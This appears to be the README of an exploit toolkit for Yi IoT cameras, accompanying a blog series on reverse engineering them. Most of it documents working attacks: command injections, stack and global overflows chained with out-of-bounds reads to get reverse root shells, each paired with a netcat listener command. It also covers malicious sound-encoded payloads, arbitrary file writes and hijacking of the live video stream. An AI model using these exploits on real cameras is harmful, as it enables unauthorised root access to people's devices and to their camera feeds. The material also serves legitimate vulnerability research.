

<p align="center">

  

</p>

This is a suite of tools/PoCs/exploits that can be used with any camera that uses the Yi IoT application in 'hotspot' mode. This could easily be used to flash alternative firmwares as a replacement for the SD card update method.

**Note:** Any memory corruption exploit will only work if your cameras firmware version is `6.0.05.10_202301061607` - these exploits rely on fixed offsets, which change every time the firmware is built.

## Blogs

[[0] Teardown and Access Point Bugs](https://luke-m.xyz/camera/p1.md)

[[1] Popping Shells](https://luke-m.xyz/camera/p2.md)

[[2] Reversing Port 32100 Hotspot Protocol](https://luke-m.xyz/camera/p3.md)

[[3] Finding Hotspot Bugs in Port 32100](https://luke-m.xyz/camera/p4.md)

[[4] Hacking with Sound](https://luke-m.xyz/camera/p5.md)

[[5] What about the SD Card?](https://luke-m.xyz/camera/p6.md)

[[6] Reversing and Messing with Video Stream Protocol](https://luke-m.xyz/camera/p7.md)

[[7] But can it run DOOM?](https://luke-m.xyz/camera/p8.md)

## Functionality

### `ap_bind`

This is used to bind the camera to an access point via port 6000, credentials are encoded and sent to the camera. Once received, the camera will stop the hotspot and try and connect to the provided access point.

```
python3 yihaw.py ap_bind SSID PWD BIND_KEY
```

### `ap_preview`

This uses the `ap_preview` method to fetch information about the camera via port 6000.

```
python3 yihaw.py ap_bind SSID PWD BIND_KEY
```

```
[+] Received response:
{
    "did": "A2069004G3MJBW230316",
    "isHorn": "1",
    "is_white": "1",
    "light_time": "1336127670",
    "operator": "ap_preview",
    "state": "OK",
    "tnp_uid": "T206900-632912-30316",
    "trigger_light": "0",
    "with_ptz": "1"
}
```

## `ap_update_name_cmd_injection`

Exploits a command injection vulerability in `ap_update_name` for a reverse root shell. 

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py ap_update_name_cmd_injection *YOUR IP* 123`

## `ap_update_name_file_write`

Exploits the fact that the camera does not delete update files if the md5 check fails, files are written to `/tmp`

```
python3 yihaw.py ap_update_name_file_write ./binaries/gdbserver-static
```

## `ap_update_name_file_write_sd`

Exploits the fact the camera does not delete update files if the md5 check fails, as well as a directory traversal, to write provided file to the SD card (`/mnt`)

```
python3 yihaw.py ap_update_name_file_write_sd ./binaries/gdbserver-static
```

## `daemon_cmd_injection`

Exploits mishandling of a filename in the processing of a daemon packet which causes a command injection. Exploited to get a reverse root shell.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py daemon_cmd_injection *YOUR IP* 123`

## `daemon_global_stack_overflow_exploit`

Chains together a global overflow (to leak a pointer via port 8192) and a stack overflow in the handling of a daemon packet to spawn a reverse root shell.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py daemon_global_stack_overflow_exploit *YOUR IP* 123`

## `daemon_ftp_stack_overflow_exploit`

Same as above, but instead of using the global overflow to leak the base address of `libc`, it uses the exposed FTP server to get the address.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py daemon_ftp_stack_overflow_exploit *YOUR IP* 123`

## `anyka_get_ipc`

Sends `Anyka IPC, Get IP Address!" to port 8192 which will get some information about the camera.

```
python3 yihaw.py anyka_get_ipc
```

## `sonic_bug_1_hook_gen`

Generates a frida hook which will generate a sound that exploits a stack overflow. Due to ASLR, an OOB read is also used to leak a pointer to work out base addresses - so you will need to be connected to the cameras access point when generating this hook.

This exploit turns on the cameras LED lights.

```
python3 yihaw.py sonic_bug_1_hook_gen
```

## `sonic_bug_2_hook_gen`

Generates a frida hook which will generate a sound that exploits a global overflow (by causing a consequent command injection) in the parsing of sound (which contains encoded wifi credentials) to turn on telnet. This can be connected to via the access point associated with the credentials send to the camera (once the camera has connected).

*Note:* For this to work, the credentials of your malicious access point must be:
- SSID: `wifi_1C98B0`
- Password: `hell0world`

```
python3 yihaw.py sonic_bug_2_hook_gen 
```

## `set_ap_mode_exploit`

This chains together a remote OOB-read to bypass ASLR, and a stack overflow in `USER_IPCAM_SET_AP_MODE_REQ`, to get a reverse root shell on the camera.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py set_ap_mode_exploit *YOUR IP* 123`

## `device_param_exploit`

This uses a global overflow in the handling of the device param string to cause a stack overflow when this string is consequently fetched. Chained with the OOB-read to bypass ASLR, these bugs are used to get a reverse root shell.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py device_param_exploit *YOUR IP* 123`

## `msg_notice_to_ex_cmd_injection`

This exploits a command injection in a `MSG_NOTICE_TO` callback function, however this is difficult to exploit as you need the device key (stored in `/etc/jffs2/yi.conf`) - this can be fetched with FTP, but there are easier exploits above. 

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py msg_notice_to_ex_cmd_injection *YOUR IP* 123 *DEVICE KEY*`

## `set_wifi_info_exploit`

This exploits a stack overflow in the `IOTYPE_USER_IPCAM_SET_WIFI_INFO` handler, however a reverse shell isn't possible as the hotspot is disabled before the bug is hit - therefore this just executes a provided command. In this case, it just runs `/usr/bin/testptz` which runs the camera through its movement test (it then crashes, and does the same thing again when booting).

```
python3 yihaw.py set_wifi_info_exploit
```

## `set_device_param_global_poc`

This is a PoC for a global overflow when setting the device param string, I didn't exploit this one, but there is definitely some interesting stuff next to it in memory. 

*WARNING:* Make sure you change the device parameter back to the default after using this.

```
python3 yihaw.py set_device_param_global_poc
```

## `event_db_overflow_poc`

This generates a file that when loaded onto the SD card, will cause a crash via stack overflow if a `IOTYPE_USER_IPCAM_GET_ALARM_EVENT_LIST_REQ` with min and max limits is sent to the camera. 

```
python3 yihaw.py event_db_overflow_poc
```

## `cmd`

This allows commands to be run on the camera, the following commands are available (a subset of all available commands):

```
light               control the light
move                control camera movement
jump                jump to position
restart             restart the camera
get_device_param    fetch the device hardware string
set_device_param    set the device hardware string
get_device_info     fetch and parse device info string
get_version         fetch device version string
```

```
python3 yihaw.py cmd *CMD* *ARGUMENTS (if any)*
```

## `stream`

Using this, the livestream of the camera can be viewed in `ffplay`.



*NOTE:* Stops parsing/receiving packets after a while for some reason, but works great when it works!

```
python3 yihaw.py stream*
```

## `hijack`

The following hijacks are available:

### flash

This is just for debugging that you can get code execution on the camera, if you can, the LED's on the front of the camera will flash.

```
python3 yihaw.py hijack flash
```

### max

This displays an image by hijacking the stream after the hardware decoder.

```
python3 yihaw.py hijack max
```


### bongo

This displays a two-frame gif by hijacking the stream after the hardware decoder.

```
python3 yihaw.py hijack bongo
```


### hackerman

This displays an image by hijacking the stream before the hardware decoder.

```
python3 yihaw.py ap_update_name_file_write yuv/hackerman.yuv 
python3 yihaw.py hijack hackerman
```


### wargames

This displays an image by hijacking the stream before the hardware decoder.

```
python3 yihaw.py ap_update_name_file_write yuv/wargames.yuv 
python3 yihaw.py hijack wargames
```


## `doom`

This runs through the entire process from start to finish of uploading necessary files, getting code execution with OOB-read and stack overflow, runs doom using command injection, and consequently overwrites the stream with doom running locally on the camera (before the hardware encoder).


